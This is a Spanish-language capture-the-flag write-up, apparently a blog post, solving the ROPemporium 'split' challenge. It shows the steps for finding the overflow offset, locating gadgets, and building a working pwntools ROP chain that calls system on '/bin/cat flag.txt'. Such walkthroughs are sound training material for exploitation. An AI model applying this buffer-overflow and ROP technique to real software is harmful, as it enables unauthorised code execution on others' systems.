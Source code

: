 ```yaml
---
layout: post
title: ROPemporium split - Usando ROP para escribir en RDI
author: c4rta
date: 2023-01-15
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, ROP]
image: /assets/img/spilt/waifu.jpg
---
```

Resolucion del desafio split de ROPemporium, donde usaremos el gadget pop rdi; ret para escribir en RDI la direccion de /bin/cat flag
{:.lead}

## A tomar en cuenta

- La dirección máxima en 64 bits es ```0x00007FFFFFFFFFFF``` y el RIP no puede sobrescribir una dirección mayor que este valor. 
- Los parámetros de función se pasan a los registros. Estos registros son RDI, RSI, RDX, RSX, R8, R9, respectivamente. Si el número de parámetros es superior a 6, se guardan en el stack

## Analizando el binario

Primeramente veremos con que protecciones cuenta el binario, esto con ```checksec```:

```
checksec --file=split                                             ─╯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split
```
Como se puede ver tiene ```NX``` asi que no podemos ejecutar codigo en el stack, asi que para resolverlo vamos a usar ROP (Programacion Orientada el Retorno).

Ahora metere el binario a radare2 para ver lo que esta haciendo en el main:

![](/assets/img/spilt/radare1.png)

Aqui lo unico interesante es que se esta llamando a la funcion ```pwnme``` en la direccion ```0x004006d2```. Y lo demas simplemente es el mensajito de bienvenida.

En la funcion ```pwnme``` tenemos esto:

![](/assets/img/spilt/radare2.png)

- En color rojo se esta declarando un puntero llamado ```buf``` que esta 0x20 por debajo del ```RBP```
- En color amarillo se esta creando un buffer de ```0x20``` (32 bytes) el cual se almacena en ```buf```
- En color verde es cuando el programa recibe nuestro input el cual lee ```0x60``` bytes en ```buf```.

Esto no es todo, siempre hay que mostrar todas las funciones en un programa, en radare lo hacemos con ```alf```. Veamos:

![](/assets/img/spilt/radare3.png)

Vemos como existe una funcion llamada ```usefulFunction``` la cual nunca se llama en el programa, y si vemos codigo tenemos algo como esto:

![](/assets/img/spilt/radare4.png)

Se esta haciendo uso de la funcion ```system``` para llamar a ```/bin/ls```, esto no es lo que queremos, nosotros queremos que llame a ```/bin/cat flag.txt```, y la pregunta es... ¿Como yo se que en el binario se esta llamando a ```/bin/cat flag.txt```?, pues facil, simplemente podemos mostrar los strings con ```rabin2 -z split```:

![](/assets/img/spilt/radare5.png)

Podemos ver que en la seccion ```.data``` esta ```/bin/cat flag.txt```, asi que tenemos que sustituirlo por ```/bin/ls```


## Crafteando el exploit

### Sacando el offset del RIP

Con ```pwndbg``` voy a ocasionar que el buffer pete pasandole la cadena generada por ```cyclic 100```, y deberiamos ver algo como esto:

```
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffda78 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400741 (pwnme+89) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret    <0x6161616161616166>
```

Vemos que no sobrescribimos RIP en absoluto. Esto se debe a que sobrescribimos RIP con una dirección no válida mayor que ```0x00007fffffffffff```. Esto hace que el sistema operativo genere una excepción, y por lo tanto, no actualice el valor de RIP en absoluto. 

Asi que para sacar su offset podemos usar el registro ```RSP```, para sacar el offset de ```RSP``` ponemos ```cyclic -l faaaaaaa``` y esto nos da un offset de ```40```, este offset es el mismo que tiene el ```saved-rip```, y tiene el mismo ya que el ```saved rip``` tiene el valor guardado del puntero de instruccion, es decir, adonde regresar, pero este valor se guarda en el stack en una direccion en particular, y esa direccion es ```0x7fffffffda78```, esto lo podemos saber si mostramos el frame y vemos esta parte:

```
 Saved registers:
  rip at 0x7fffffffda78
```
Y si mostramos unos cuantos byes del stack, con el comando ```x/30wx $rsp``` vemos algo como esto:

```
0x7fffffffda78:	0x61616166	0x61616161	0x61616167	0x61616161
0x7fffffffda88:	0x61616168	0x61616161	0x61616169	0x61616161
0x7fffffffda98:	0x6161616a	0x61616161	0x6161616b	0x61616161
0x7fffffffdaa8:	0x6161616c	0x61616161	0xffffdb98	0x00007fff
0x7fffffffdab8:	0x35f3056c	0x394c8b3a	0x00000000	0x00000000
0x7fffffffdac8:	0xffffdba8	0x00007fff	0x00000000	0x00000000
0x7fffffffdad8:	0xf7ffd000	0x00007fff	0x80d1056c	0xc6b374c5
0x7fffffffdae8:	0xb179056c	0xc6b36486
```
En donde en la direccion ```0x7fffffffda78``` tenemos los valores ```0x61616166	0x61616161```, los cuales son los mismos que tiene el ```RSP```, asi que podemos decir que el ```saved rip``` tiene el valor ```0x6161616161616166``` y el ```RSP``` el valor ```faaaaaaa``` (que es lo mismo que ```0x6161616161616166``` pero en decimal), ademas podemos tambien hacer un ```cyclic -l 0x6161616161616166``` y nos dara un offset de 40 al igual que el ```RSP```. Y como ultimo, en este caso le estamos indicando al programa que regrese a ```0x6161616161616166```, lo cual es incorrecto. Y por toda esta explicacion es la razon por la cual el ```saved rip``` y el ```RSP``` tienen el mismo offset (nunca habia explicado esto y es bueno saberlo).

### Direccion de system

Esto es muy facil, para esto, usaremos la direccion de system que se encuentra en la funcion ```usefulFunction```, como se puede ver aca:

![](/assets/img/spilt/radare6.png)

La direccion es: ```0x000000000040074b```

### Direccion de /bin/cat flag.txt

Esto lo hacemos con ```rabin2 -z split``` y copiamos la direccion, la cual es: ```0x00601060```

### Direccion de pop rdi

Como mencione hace un rato, usamos esto para meter en el registro rdi: ```/bin/cat flag.txt```. La direccion de pop rdi la podemos sacar con herramientas como ropper, la cual nos permiten ver todos los gadgets del programa. Usamos el comando ```ropper -f split```.

Vemos como nos encontro el gadget:

```0x00000000004007c3: pop rdi; ret; ``` y su direccion es ```0x00000000004007c3```

## Ejecutando el exploit

Al final nuestro exploit quedo asi:

```py
from pwn import *

p = process("./split")

padding = b"A" * 40
system = 0x000000000040074b
bin_cat = 0x00601060
pop_rdi = 0x00000000004007c3

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system)

p.sendline(payload)
print(p.recvall().decode())
```

Y lo que hicimos fue:

- Cambiar el return adress a la dirección de pop rdi; ret.
- Después del return adress, pusimos la dirección de /bin/cat flag.txt
- Después de la dirección de /bin/cat flag.txt, pusimos la dirección de system@plt

De esta manera después de la última instrucción de ```pwnme``` se ejecute (osea el ```ret```), el ```RIP``` saltara a la dirección de ```pop rdi;ret```, simultáneamente el ```RSP``` apuntará ahora a la dirección de ```/bin/cat flag.txt```. Luego se pondrá en ```rdi``` la dirección de ```/bin/cat flag.txt``` y el ```ret``` ejecutará la funcion```system``` que tiene como argumento ```/bin/cat flag.txt``` :point_up: 🤓  

Y al ejecutarlo nos da la flag:

![](/assets/img/spilt/exploit.png)

Eso ha sido todo, gracias por leer ❤

